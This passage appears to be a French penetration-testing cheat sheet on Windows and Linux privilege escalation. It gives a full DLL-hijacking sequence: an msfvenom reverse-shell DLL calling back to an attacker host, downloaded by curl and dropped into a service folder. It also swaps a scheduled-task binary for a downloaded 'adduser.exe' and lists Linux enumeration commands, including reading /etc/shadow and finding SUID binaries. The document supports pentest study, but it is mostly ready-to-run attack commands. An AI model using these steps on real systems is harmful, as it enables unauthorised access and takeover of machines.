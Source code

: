 #### Détournement de DLL
```bash
# Vérification des permissions et vérification de l'arrêt/démarrage du service
# Msfvenom créer shell et télécharger (curl, iwr, certutil)
icacls "C:\Program Files"
msfvenom -p windows/shell_reverse_tcp lhost=192.168.10.10 lport=443 -f dll -o rev.dll
del "C:\program files\noman\noman.dll"
curl 192.168.10.10/rev.dll -o noman.dll
cp noman.dll "C:\program files\noman\"
net start noman
```

#### Planificateur de tâches/travail cron
```bash
schtasks /query /fo LIST /v # (rechercher taskName: \Microsoft\CacheCleanup)
icacls C:\Users\noman\Pictures\Cleanup.exe # permission utilisateur (I)(F) requise)
iwr -Uri http://192.168.10.10/adduser.exe -Outfile Cleanup.exe
move .\Pictures\BackendCacheCleanup.exe Cleanup.exe.bak
move .\Cleanup.exe .\Pictures\ # (attendre l'exécution et mettre le fichier juste un avant le dossier)
```

## 3. Élévation de Privilèges Linux
Commencez par des outils automatisés comme LinPEAS, puis procédez à une énumération manuelle. La commande suivante est utilisée pour obtenir un shell TTY
```bash
python3 -c 'import pty; pty.spawn(["/bin/bash", "--rcfile", "/etc/bash.bashrc"])' # --> shell d'accès complet
```

### Outils automatisés
```bash
python -m http.server 80
wget http://192.168.10.10/linpeas.sh -o linpeas.sh
chmod +x linpeas.sh | ./linpeas.sh | ( ./linpeas.sh | tee filename.txt )
```

### Énumération manuelle
Approche vérificateur de permission/cron job/
```bash
cmd: ls -la /etc/passwd/ | ls -la /etc/shadow # --> vérifier les permissions de lecture/écriture | sudo su
sudo -l # (https://gtfobins.github.io/#)
find / -user root -perm -4000 -print 2>/dev/null
getcap -r / 2>/dev/null # (capabilities)(cap_setuid+ep)
find / -perm -u=s -type f 2>/dev/null
find / -type f -perm 0777 | find / -writable -type d 2>/dev/null
cat /etc/crontab # (normal) | grep "CRON" /var/log/syslog # (wildcarts)
history | cat .bashrc
```

### Mine d'Or Mot de passe/texte en clair
- Fichiers de sauvegarde
- Recherche de noyau avec Google
